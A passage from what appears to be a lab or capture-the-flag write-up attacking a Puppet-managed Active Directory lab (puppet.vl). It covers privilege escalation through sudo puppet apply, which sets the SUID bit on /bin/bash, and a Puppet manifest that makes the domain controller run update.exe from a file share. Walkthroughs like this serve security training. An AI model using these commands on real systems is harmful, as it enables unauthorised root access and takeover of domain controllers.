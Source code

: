 This worked and we have access to the puppet master machine now:

```terminal
sudo -l
Matching Defaults entries for svc_puppet_lin_t1@puppet.vl on puppet:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc_puppet_lin_t1@puppet.vl may run the following commands on puppet:
    (ALL) NOPASSWD: /usr/bin/puppet
```

Since this user is supposed to be here, he can also execute puppet as root. We can also use this for a quick privilege escalation:

```terminal
sudo puppet apply -e "exec { '/bin/sh -c \"chmod u+s /bin/bash\"': }"

bash -p
bash-5.1# id
uid=451001132(svc_puppet_lin_t1@puppet.vl) gid=451000513(domain users@puppet.vl) euid=0(root) groups=451000513(domain users@puppet.vl),451001133(admins_t1@puppet.vl)
```

Let's add a key to root and continue as the root user. Let's enumerate the machines controlled by this one via puppet:

```terminal
puppet cert list --all

+ "dc01.puppet.vl"   (SHA256) E4:C3:42:71:83:88:08:07:6A:C5:A1:9D:FA:C2:7E:BB:D5:65:5F:71:9F:D3:BE:11:96:B7:26:CD:4F:5C:68:C6
+ "file01.puppet.vl" (SHA256) 61:ED:86:C3:55:35:36:89:D5:FC:3A:32:05:D1:23:EC:C3:F1:58:E4:D7:9A:6B:3E:65:F4:F2:F2:77:34:B0:CA
+ "puppet.puppet.vl" (SHA256) 11:65:85:DB:9F:E4:19:03:04:21:92:4B:19:03:17:6D:29:A9:E9:56:0F:04:A6:16:2B:44:46:A3:33:20:92:9C (alt names: "DNS:puppet", "DNS:puppet.puppet.vl")
```

We can see that both file01 and the dc are controlled by this puppet master instance. Although we don't know which accounts the agents run as (besides for file01) we can guess that it's probably `svc_puppet_win_t0` for the domain controller. Let's find a way to run a command there:

```terminal
mkdir -p /etc/puppet/code/environments/production/manifests
nano /etc/puppet/code/environments/production/manifests/site.pp


node 'dc01.puppet.vl' {
  exec { 'pwned':
    command   => 'C:\\Windows\\System32\\cmd.exe /c \\\\file01.puppet.vl\\files\\update.exe',
    logoutput => true,
  }
}
node default {
  notify { 'This is the default node': }
}
```
